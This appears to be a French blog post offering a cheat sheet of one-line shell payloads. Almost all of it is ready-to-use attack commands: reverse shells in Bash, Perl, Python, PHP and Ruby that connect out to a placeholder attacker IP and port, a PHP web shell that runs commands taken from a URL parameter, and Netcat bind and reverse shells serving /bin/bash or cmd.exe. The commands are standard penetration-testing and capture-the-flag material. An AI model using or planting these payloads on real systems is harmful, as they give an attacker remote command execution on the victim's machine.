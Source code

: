 ```yaml
---
layout: post
title: Oneliner shell - Cheat sheet
subtitle: Simple shells & Reverse shells
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Shell, Reverse shell, Cheat sheet, Python, PHP, Bash, Perl, Ruby, Netcat]
comments: false
---
```


**Créer un shell ou un reverse shell en une ligne de code, c'est faisable. Voici quelques possibilités.**

Remarque: pour les reverse shell commencer par lancer un listener du côté de la machine de l'attaquant:

~~~
nc -nlvp <PORT>
~~~

Autre remarque: L'outil One-Lin3r de D4Vinci [https://github.com/D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r) est un bon complément pour créer des payloads sur une ligne :)

# Bash

## Reverse shell 

~~~
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
~~~

~~~
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
~~~

~~~
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
~~~

~~~
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
~~~

# Perl

## Reverse shell

Version dépendante de « /bin/sh » :

~~~
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~

Si le système cible est un Windows (sans fork) :

~~~
perl -MIO -e "$c=new IO::Socket::INET(PeerAddr,'<IP>:<PORT>');STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"
~~~

# Python 

## Reverse shell

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

# PHP

## Web shell

~~~
<?php system($_GET['cmd']);?>
~~~

## Reverse shell

~~~
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
~~~

# Ruby

## Reverse shell 

One-line dépendante de « /bin/sh » :

~~~
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
~~~

Version pour Windows (sans fork) :

~~~
ruby -rsocket -e "c=TCPSocket.new('<IP>','<PORT>');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"
~~~

# Netcat

## Bind shell

~~~
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
~~~

## Reverse shell

~~~
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
~~~

Références:

- Acunetix, Web shells 101, [https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)
- Asafety, Reverse-shell one-liner Cheat Sheet, [https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/)
- Reverse shells, [https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)
- Reverse shells, [https://alamot.github.io/reverse_shells/](https://alamot.github.io/reverse_shells/)


[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).


